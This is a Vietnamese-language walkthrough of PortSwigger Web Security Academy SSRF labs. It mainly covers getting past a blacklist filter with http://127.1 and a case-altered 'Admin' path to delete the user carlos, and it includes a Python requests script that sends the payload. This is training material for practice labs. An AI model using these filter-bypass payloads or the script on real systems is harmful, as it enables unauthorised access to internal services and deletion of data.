 Header Referer chứa URL của trang được truy cập trước khi chúng ta truy cập đến `/product?productId=1`

<li>Thay đổi giá trị header Referer thành địa chỉ tới domain Burp Collaborator.</li>

## 4. Lab: SSRF with blacklist-based input filter

link: https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter

### Đề bài

![image](https://hackmd.io/_uploads/SJ20ZM5YT.png)

### Phân tích

<li>có vẻ bài này giống vs bài 1 khi server request dữ liệu để check hàng tồn kho tại máy local nhưng nó đã bị filter và chúng ta cần bypass nó</li>

<li>Bài này nâng cấp hơn bằng cách blacklist filter một số chuỗi như localhost, 127.0.0.1, … Thử với payload http://localhost thì bị trả 400 Bad Request. Tương tự với 127.0.0.1.</li>

![image](https://hackmd.io/_uploads/rynS7GcFa.png)

### Khai thác

<li>Ta sẽ bypass bằng http://127.1. Lúc này ta truy cập được trang chủ thành công.</li>

![image](https://hackmd.io/_uploads/rk19Xf9Ka.png)

Tuy nhiên, /admin cũng bị chặn → chuỗi admin bị filter.

![image](https://hackmd.io/_uploads/S139mzctp.png)

Ta bypass bằng cách obfuscate admin thành AdMiN hoặc AdmIn, …

![image](https://hackmd.io/_uploads/rkWyVG5Ka.png)

và mình xóa người dùng carlos bằng

```
stockApi=http://127.1/Admin/delete?username=carlos
```

mình đã viết lại script khai thác:

```python=
#!/usr/bin/python3.7
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from bs4 import BeautifulSoup

url = 'https://0ad5007c03c3a4a88398913f00430085.web-security-academy.net'

session = requests.Session()

data_url = 'stockApi=http://127.1/Admin/delete?username=carlos'

response = requests.post(
    url + '/product/stock',
    data=data_url,
    verify=False,
)

# print(response.text) # hiển thị response có flag
soup = BeautifulSoup(response.text, 'html.parser')
```